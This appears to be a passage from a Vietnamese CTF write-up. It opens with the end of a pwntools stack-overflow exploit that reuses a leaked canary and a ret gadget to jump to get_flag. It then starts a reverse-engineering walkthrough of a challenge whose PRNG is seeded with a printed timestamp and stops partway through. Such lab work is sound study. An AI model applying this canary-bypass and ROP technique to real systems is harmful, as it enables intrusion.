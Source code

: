 ```python

get_flag_addr = elf.symbols['get_flag']

offset_to_canary = 64

payload = b''
payload += b'A' * offset_to_canary
payload += p64(leaked_canary)
payload += b'B' * 16
payload += p64(ret_gadget)
payload += p64(get_flag_addr)

log.info(f"Final payload is created with len: {len(payload)}")

p.recvuntil(b'Write yourself into this story.\n')
p.sendline(payload)
log.success("Final payload sent!")

p.interactive()
```

> Flag: `Forgot to save it :))`
{: .prompt-flag }

---

# **Reverse**
## **Shadow Protocol**

Challenge này yêu cầu chúng ta giải mã một thông điệp được mã hóa bằng một giao thức tùy chỉnh có tên "Shadow Protocol". Bằng cách phân tích file binary, chúng ta có thể tìm ra điểm yếu trong thuật toán sinh khóa, từ đó tái tạo lại khóa và giải mã thông điệp.

### **Tóm Tắt**

*   **Điểm yếu cốt lõi:** Thuật toán sinh số ngẫu nhiên (PRNG) sử dụng một "hạt giống" (seed) có thể dự đoán được, đó chính là thời gian Unix (timestamp) được làm tròn xuống phút gần nhất. Chương trình sau đó lại **in ra chính xác seed này**, cho phép chúng ta tái tạo lại toàn bộ quá trình.
*   **Hướng giải quyết:** Viết một script Python để mô phỏng lại toàn bộ logic sinh khóa của chương trình C, từ việc tạo số ngẫu nhiên, xây dựng và duyệt cây, cho đến thuật toán mã hóa cuối cùng để lấy được khóa mã hóa (keystream). Cuối cùng, dùng phép XOR để giải mã flag.

---

### **Phân tích pseudocode**

Chương trình thực hiện một chuỗi các bước phức tạp để tạo ra một khóa mã hóa 8-byte (keystream) rồi dùng nó để mã hóa flag.

**Luồng hoạt động của hàm `main`:**
